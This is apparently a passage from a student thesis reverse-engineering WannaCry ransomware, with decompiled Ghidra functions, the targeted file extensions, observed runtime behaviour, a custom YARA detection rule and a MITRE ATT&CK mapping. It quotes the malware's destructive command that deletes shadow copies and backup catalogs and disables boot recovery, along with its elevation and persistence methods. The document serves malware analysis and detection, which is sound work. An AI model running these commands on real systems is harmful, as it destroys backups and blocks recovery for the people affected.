	Before running the command, it checks if the malware has administrator rights with `FUN_00401bb0()`. If it doesnt, it tries to relaunch the command with elevated privileges using [`ShellExecuteExA`](https://learn.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecuteexa). If it does have admin rights, it runs the command directly with [`CreateProcessA`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa).
```c
undefined4 __fastcall UndefinedFunction_004064d0(CDialog *param_1)
{
  ...
  pbVar13 = &DAT_004210a0;              // string "vs"
  piVar6 = (int *)__p___argv();         // obtains argv[]
  pbVar10 = *(byte **)(*piVar6 + 4);    // Gets first argument (argv[1])
  ... // Checks if matches
  if (iVar4 == 0) {
    Sleep(10000);
    pcVar5 = "/c vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no & wbadmin delete catalog -quiet"
    ...
    uStack_a9c = DAT_00420fd0; // cmd.
    uStack_a98 = DAT_00420fd4; // exe
    iVar4 = FUN_00401bb0();
    if (iVar4 == 0) { // ShellExecuteExA -> cmd.exe, /c vssadmin delete...
        FUN_00401b50((LPCSTR)&uStack_a9c,aCStack_990,0);
    }
    else { // cmd.exe /c vssadmin delete...
        sprintf(acStack_400,"%s %s",&uStack_a9c,aCStack_990); 
        // CreateProcessA of formatted command
        FUN_00401a90(acStack_400,0,(LPDWORD)0x0); 
    }
  }
  ...
}
```
.
	- FUN_00401bb0():
		This function checks if the current process is running with administrator privileges by verifying membership in the "Administrators" group (`S-1-5-32-544`). It returns `1` if true, `0` otherwise.
```c
int FUN_00401bb0(void)
{
  ...
  _SID_IDENTIFIER_AUTHORITY local_8;
  local_8.Value[0] = 0x0;
  local_8.Value[1] = 0x0;
  local_8.Value[2] = 0x0;
  local_8.Value[3] = 0x0;
  local_8.Value[4] = 0x0;
  local_8.Value[5] = 0x5;
  local_10 = 0; 
  // 0x20 = SECURITY_BUILTIN_DOMAIN_RID, 0x220 = DOMAIN_ALIAS_RID_ADMINS
  BVar1 = AllocateAndInitializeSid(&local_8,0x2,0x20,0x220,0,0,0,0,0,0,&local_c);
  if (BVar1 == 0) {
    return 0;
  }
  BVar1 = CheckTokenMembership((HANDLE)0x0,local_c,&local_10);
  if (BVar1 == 0) {
    local_10 = 0;
  }
  FreeSid(local_c);
  return local_10;
}
```
.
	- FUN_00401b50:
		Executes file `param_1` with parameters at `param_2` with [`ShellExecuteExA`](https://learn.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecuteexa) using as the verb `runas`, which attempts to start the app as administrator, prompting the user with the UAC consent.
```c
bool __cdecl FUN_00401b50(LPCSTR param_1,LPCSTR param_2,int param_3)
{
  SHELLEXECUTEINFOA local_3c;
  ...
  local_3c.fMask = 0;
  local_3c.lpDirectory = (LPCSTR)0x0;
  local_3c.lpFile = param_1;
  local_3c.nShow = -(uint)(param_3 != 0) & 5;
  local_3c.cbSize = 0x3c;
  local_3c.lpParameters = param_2;
  local_3c.lpVerb = "runas";
  BVar1 = ShellExecuteExA(&local_3c);
  return (bool)('\x01' - (BVar1 != 1));
}
```
.
- FUN_00401a90:
	Creates a process for param_1 with [`CreateProcessA`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) without showing any window.
```c
int __cdecl FUN_00401a90(LPSTR param_1,DWORD param_2,LPDWORD param_3)
{
  _PROCESS_INFORMATION local_54;
  _STARTUPINFOA local_44;
  ...
  local_44.dwFlags = 1;
  local_44.wShowWindow = 0;
  BVar1 = CreateProcessA((LPCSTR)0x0,param_1,(LPSECURITY_ATTRIBUTES)0x0,(LPSECURITY_ATTRIBUTES)0x0,0,0x8000000,(LPVOID)0x0(LPCSTR)0x0,&local_44,&local_54);
  if (BVar1 != 0) {
    if (param_2 != 0) {
      DVar2 = WaitForSingleObject(local_54.hProcess,param_2);
      if (DVar2 != 0) {
        TerminateProcess(local_54.hProcess,0xffffffff);
      }
      if (param_3 != (LPDWORD)0x0) {
        GetExitCodeProcess(local_54.hProcess,param_3);
      }
    }
    CloseHandle(local_54.hProcess);
    CloseHandle(local_54.hThread);
    return 1;
  }
  return 0;
}
```

#### List of extensions to be encrypted
The program has a list of extensions that will encrypt, which can be seen in defined strings at `mysterious_executable.bin` with Ghidra:
- `.der`
- `.pfx`
- `.key`
- `.crt`
- `.csr`
- `.p12`
- `.pem`
- `.odt`
- `.ott`
- `.sxw`
- `.stw`
- `.uot`
- `.3ds`
- `.max`
- `.3dm`
- `.ods`
- `.ots`
- `.sxc`
- `.stc`
- `.dif`
- `.slk`
- `.wb2`
- `.odp`
- `.otp`
- `.sxd`
- `.std`
- `.uop`
- `.odg`
- `.otg`
- `.sxm`
- `.mml`
- `.lay`
- `.lay6`
- `.asc`
- `.sqlite3`
- `.sqlitedb`
- `.sql`
- `.accdb`
- `.mdb`
- `.dbf`
- `.odb`
- `.frm`
- `.myd`
- `.myi`
- `.ibd`
- `.mdf`
- `.ldf`
- `.sln`
- `.suo`
- `.cpp`
- `.pas`
- `.asm`
- `.cmd`
- `.bat`
- `.ps1`
- `.vbs`
- `.dip`
- `.dch`
- `.sch`
- `.brd`
- `.jsp`
- `.php`
- `.asp`
- `.java`
- `.jar`
- `.class`
- `.mp3`
- `.wav`
- `.swf`
- `.fla`
- `.wmv`
- `.mpg`
- `.vob`
- `.mpeg`
- `.asf`
- `.avi`
- `.mov`
- `.mp4`
- `.3gp`
- `.mkv`
- `.3g2`
- `.flv`
- `.wma`
- `.mid`
- `.m3u`
- `.m4u`
- `.djvu`
- `.svg`
- `.psd`
- `.nef`
- `.tiff`
- `.tif`
- `.cgm`
- `.raw`
- `.gif`
- `.png`
- `.bmp`
- `.vcd`
- `.iso`
- `.backup`
- `.zip`
- `.rar`
- `.tgz`
- `.tar`
- `.bak`
- `.tbk`
- `.bz2`
- `.PAQ`
- `.ARC`
- `.aes`
- `.gpg`
- `.vmx`
- `.vmdk`
- `.vdi`
- `.sldm`
- `.sldx`
- `.sti`
- `.sxi`
- `.602`
- `.hwp`
- `.edb`
- `.potm`
- `.potx`
- `.ppam`
- `.ppsx`
- `.ppsm`
- `.pps`
- `.pot`
- `.pptm`
- `.xltm`
- `.xltx`
- `.xlc`
- `.xlm`
- `.xlt`
- `.xlw`
- `.xlsb`
- `.xlsm`
- `.dotx`
- `.dotm`
- `.dot`
- `.docm`
- `.docb`
- `.jpg`
- `.jpeg`
- `.snt`
- `.onetoc2`
- `.dwg`
- `.pdf`
- `.wk1`
- `.wks`
- `.123`
- `.rtf`
- `.csv`
- `.txt`
- `.vsdx`
- `.vsd`
- `.eml`
- `.msg`
- `.ost`
- `.pst`
- `.pptx`
- `.ppt`
- `.xlsx`
- `.xls`
- `.docx`
- `.doc`
### WannaCry Malware Behaviour Analysis
If we execute the malware, we can see that files get encrypted with the `.WNCRY` custom extension. Upon execution of the WannaCry malware, several immediate changes are observed on the system:
- The desktop wallpaper is changed.
	
	<div align="center"></div>
- Files are encrypted and appended with the custom extension `.WNCRY`.
	
	<div align="center"></div>
- A `readme` file is dropped on the desktop.
	
	<div align="center"></div>
- The ransomware interface, **Wana Decrypt0r 2.0**, is launched.


#### Wana Decrypt0r 2.0 Overview
The interface provides an explanation of what has occurred to the system, instructions on how to recover the encrypted files, payment details in Bitcoin, and contact information.

<div align="center"></div>
Bottom left, there are three options:
- **About Bitcoin**: Opens the Wikipedia page on Bitcoin (`https://en.wikipedia.org/wiki/Bitcoin`)
- **How to buy bitcoins**: Opens a Google search for buying Bitcoin (`https://www.google.com/search?q=how+to+buy+bitcoin`).
- **Contact Us**: Opens a form allowing the victim to send a message to the attacker
	<div align="center"></div>
At the bottom there are two other options:
**Bottom right options:**
- **Check Payment**: Attempts to connect to a remote server to verify payment status. 
	<div align="center"></div>
- **Decrypt**: Clicking `Decrypt` and then `Start` prompts the user to pay before decryption can begin.
	<div align="center"></div>
**Top right corner**: Language selection menu for the ransomware message.
	<div align="center"></div>

#### Process and Service Analysis
Using Process Hacker, multiple suspicious services and processes are identified as being spawned by the malware:
	<div align="center"></div>
	<div align="center"></div>
	<div align="center"></div>
	<div align="center"></div>
	<div align="center"></div>
	<div align="center"></div>

One particularly interesting process is `taksche.exe`, registered as a service with a randomly generated name `oqywognupbonhr845`. This file is located at `C:/ProgramData/oqywognupbonhr845`:
	<div align="center"></div>
	<div align="center"></div>
This folder is hidden by default; visibility was enabled by configuring Windows Explorer to show hidden items, indicated by the translucent folder icon.
	<div align="center"></div>
Inside this folder are all components previously recovered through static analysis, except for `@WanaDecryptor@.exe`, which is essentially a renamed copy of `u.wnry` with a custom icon.
	<div align="center"></div>
	<div align="center"></div>
	<div align="center"></div>
The `mssecsvc2.0` process attempts to disguise itself as a legitimate Microsoft Defender service.
	<div align="center"></div>
Two key processes, `taksche.exe` (described as "DiskPart") and `taskhsvc.exe`, are also associated with the ransomware's operation.
	<div align="center"></div>
The main process masquerades as a legitimate service under the name **Microsoft Disk Defragmenter**, with Microsoft Corporation listed as the publisher.
	<div align="center"></div>

#### EternalBlue lateral movement
Network activity reveals that the main executable attempts to establish connections to random IP addresses over **port 445 (SMB)**. This is a preparatory step for launching the **EternalBlue exploit**, used for lateral movement.
	<div align="center"></div>
	<div align="center"></div>
#### Persistence Mechanism
A registry entry is created under "`HKEY_CURRENT_USER/SOFTWARE/Microsoft/Windows/CurrentVersion/Run`". This entry has the name `oqywognupbonhr845` and points to the path of the malware executable, ensuring that the ransomware runs on every system startup.
	<div align="center"></div>
### Execution workflow
So the workflow of the program is the following:

<div align="center"></div>

### YARA rule
**YARA** is a tool used to identify and classify malware by defining patterns based on binary strings, structures, or behaviours. It plays a key role in threat hunting and malware analysis. In this project, a custom YARA rule is used to detect WannaCry based on unique characteristics observed during reverse engineering.

Based on all this, now is the time to elaborate a YARA rule based on everything we know until now. The recommended course of action is to focus on the techniques, data, and files that are likely to be common in other WannaCry variants. We will be using [`YARA documentation`](https://yara.readthedocs.io/en/latest/) to elaborate the YARA rules.
The rule is created based on:
	- WannaCry plain text strings
	- Resource `1831.bin` plain text strings (it's not compressed or encrypted)
	- EternalBlue exploit
Based on the conditions, it will also stop any Eternal Blue exploit that has the same payload.
```yara
rule Wannacry_victorK
{
    meta:
        author = "Victor Kravchuk Vorkevych"
        source = "TFG - Ingeniera Inversa de Malware: Anlisis y Tcnicas de evasin"
        sharing = "TLP:WHITE"
        status = "RELEASED"
        description = "Detects Wannacry ransomware based on reverse engineering findings"
        category = "MALWARE"
        creation_date = "2025-06-06"
        malware_family = "Wannacry"
        version = "1.0"

    strings:
        // Eternal Blue MS17-010
        $eblue1 = { 5f 5f 55 53 45 52 49 44 5f 5f 50 4c 41 43 45 48 4f 4c 44 45 52 5f 5f } // __USERID_PLACEHOLDER__
        $eblue2 = { 5f 5f 54 52 45 45 49 44 5f 5f 50 4c 41 43 45 48 4f 4c 44 45 52 5f 5f } // __TREEID_PLACEHOLDER__
        $eblue3 = "PC NETWORK PROGRAM 1.0" fullword ascii
        $eblue4 = "LANMAN1.0" fullword ascii
        $eblue5 = "Windows for Workgroups 3.1a" fullword ascii
        $eblue6 = "LANMAN2.1" fullword ascii
        $eblue7 = { 5c 00 5c 00 31 00 37 00 32 00 2e 00 31 00 36 00 2e 00 39 00 39 00 2e 00 35 00 5c 00 49 00 50 00 43 00 24 } // \\172.16.99.5\IPC$
        $eblue8 = { 5c 00 5c 00 31 00 39 00 32 00 2e 00 31 00 36 00 38 00 2e 00 35 00 36 00 2e 00 32 00 30 00 5c 00 49 00 50 00 43 00 24 } // \\192.168.56.10\IPC$

        $payload_eblue = { 68 36 61 67 4c 43 71 50 71 56 79 58 69 32 56 53 51 38 4f 36 59 62 39 69 6a 42 58 35 34 6a } // Eternal Blue payload at DAT_0041bbb0
    
        // General Wannacry strings
        $s1 = "mssecsvc.exe" fullword ascii
        $s2 = "Microsoft Security Center (2.0) Service" fullword ascii
        $s3 = "%s -m security" fullword ascii
        $s4 = "C:\\%s\\qeriuwjhrf" fullword ascii
        $s5 = "tasksche.exe" fullword ascii
        $s6 = "mssecsvc2.0" fullword ascii
        $s7 = "www.iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea.com" ascii

        // Wannacry strings at resource 1831
        $1831_taskdl = { 74 61 73 6b 64 6c } // taskdl
        $1831_taskse = { 74 61 73 6b 73 65 } // taskse
        $1831_c_wnry = { 63 2e 77 6e 72 79 } // c.wnry
        $1831_t_wnry = { 74 2e 77 6e 72 79 } // t.wnry
        $1831_icacls = { 69 63 61 63 6c 73 20 2e 20 2f 67 72 61 6e 74 20 45 76 65 72 79 6f 6e 65 3a 46 20 2f 54 20 2f 43 20 2f 51 } // icacls . /grant Everyone:F /T /C /Q
        $1831_attrib_h = { 61 74 74 72 69 62 20 2b 68 20 2e } // attrib +h .
        $1831_wncry2ol7 = { 57 4e 63 72 79 40 32 6f 6c 37 } // WNcry@2ol7
        $1831_taskstart = { 54 61 73 6b 53 74 61 72 74 } // TaskStart
        $1831_wanacry = { 57 41 4e 41 43 52 59 21 } // WanaCry!
        $1831_wanacrypt0r = { 57 00 61 00 6e 00 61 00 43 00 72 00 79 00 70 00 74 00 30 00 72 } // WanaCrypt0r
        $1831_mutex = { 47 6c 6f 62 61 6c 5c 4d 73 57 69 6e 5a 6f 6e 65 73 43 61 63 68 65 43 6f 75 6e 74 65 72 4d 75 74 65 78 41 } // Global\\MsWinZonesCacheCounterMutexA
    condition:
        (uint16(0) == 0x5A4D and ((3 of ($1831*)) or (2 of ($s*) or ($payload_eblue and 1 of ($eblue*)))))
}
```
- Checking the YARA rule
	To check the YARA rules, we will use [`YARA Playground`](https://www.yaraplayground.com/), which is a web-based Yara debugger, to test YARA rules without requiring you to install anything.
		- 24d004a104d4d54034dbcffc2a4b19a11f39008a575aa614ea04703480b1022c.exe:
			We can see that with the copy we analysed, obviously all the rules match, some of them multiple times, at the bottom.
			<div align="center"></div>
		 - Other variants:
			- 588cc3d662585f277904ee6afb5aa73143119ac663531ea4b6301eaccd9e4117.exe:
				At this variant matches multiple resource_1831 strings, detecting it correctly.
				<div align="center"></div>
			- dd9e91e348f5b6df686649d36863922e50208e2e6a2c8dde5fead47ac1778602.exe:
				At this variant matches multiple eternal blue strings and the payload, the core strings, and the resource_1831 strings, detecting it correctly.
				<div align="center"></div>
				<div align="center"></div>
			-e64a182607d00395ebd9658681b3bb8f8d5a3436587a2bb5f50355b65a647bd8.exe:
				At this variant matches multiple resource_1831 strings, detecting it correctly.
				<div align="center"></div>

### MITRE ATT&CK Framework
The **MITRE ATT&CK framework** is a curated knowledge base of tactics and techniques used by real-world adversaries. It helps analysts identify and classify malicious behaviour across different attack stages. In this project, WannaCry techniques are mapped to ATT&CK to highlight its capabilities in a structured and actionable way.

| **Phase**                  | **Technique**                                                                                    | **ID**    | **Evidence**                                                                                                               |
| -------------------------- | ------------------------------------------------------------------------------------------------ | --------- | -------------------------------------------------------------------------------------------------------------------------- |
| **1. Initial Access**      | *There are multiple ways to distribute the malware*                                              |          | The malware copy was obtained manually from MalwareBazaar, so no initial access vector was observed in the sample.         |
| **2. Execution**           | Command and Scripting Interpreter: Windows Command Shell                                         | T1059.003 | Uses cmd command at `create_tasksche_service()` to execute tasksche.exe                                                    |
|                            | System Services: Service Execution                                                               | T1569.002 | Starts tasksche.service at `create_tasksche_service()`                                                                     |
|                            | Windows Management Instrumentation                                                               | T1047     | Uses WMI at `UndefinedFunction_004064d0()` to delete shadow copies at `@WanaDecryptor@.exe`                                |
| **3. Persistence**         | Boot or Logon Autostart Execution: Registry Run Keys                                             | T1547.001 | Sets persistence via the registry at `FUN_10004cd0()`.                                                                     |
| **4. Defense Evasion**     | File and Directory Permissions Modification: Windows File and Directory Permissions Modification | T1222.001 | Uses `icacls . /grant Everyone:F /T /C /Q` to grant permissions to everyone at wWinMain in the main executable             |
|                            | Hide Artifacts: Hidden Files and Directories                                                     | T1564.001 | Uses `attrib +h .` at wWinMain in the main executable                                                                      |
| **6. Discovery**           | File and Directory Discovery                                                                     | T1083     | Searches user files for encryption based on specific file extension in mysterious_executable                               |
|                            | Remote System Discovery                                                                          | T1018     | The main executable does the exploit EternalBlue and looks for active local IPs and public IPs `FUN_00407bd0()`            |
|                            | System Network Configuration Discovery                                                           | T1016     | The main executable gets the subnet to iterate over the local IPs to perform the EternalBlue exploit at `FUN_00407bd0()`   |
| **7. Lateral Movement**    | Exploitation of Remote Services                                                                  | T1021     | The main executable does the exploit EternalBlue and exploits other hosts through and SMBv1 vulnerability `FUN_00407bd0()` |
| **8. Command and Control** | Proxy: Multi-hop Proxy                                                                           | T1090.003 | Uses TOR to communicate with the C&C server                                                                                |
| **9. Impact**              | Data Destruction                                                                                 | T1485     | Deletes shadow copies at `UndefinedFunction_004064d0()` from `@WanaDecryptor@.exe`.                                        |
|                            | Data Encrypted for Impact                                                                        | T1486     | WannaCrys primary objective is to encrypt user files and demand ransom.                                                   |
|                            | Defacement: Internal Defacement                                                                  | T1491.001 | Changes wallpaper on infected systems.                                                                                     |
|                            | Inhibit System Recovery                                                                          | T1490     | Deletes VSS shadow copies at `UndefinedFunction_004064d0()` from `@WanaDecryptor@.exe`.                                    |
|                            | Service Stop                                                                                     | T1489     | Stops services such as Microsoft Exchange and SQL at `FUN_100057c0()` in mysterious_executable.                            |
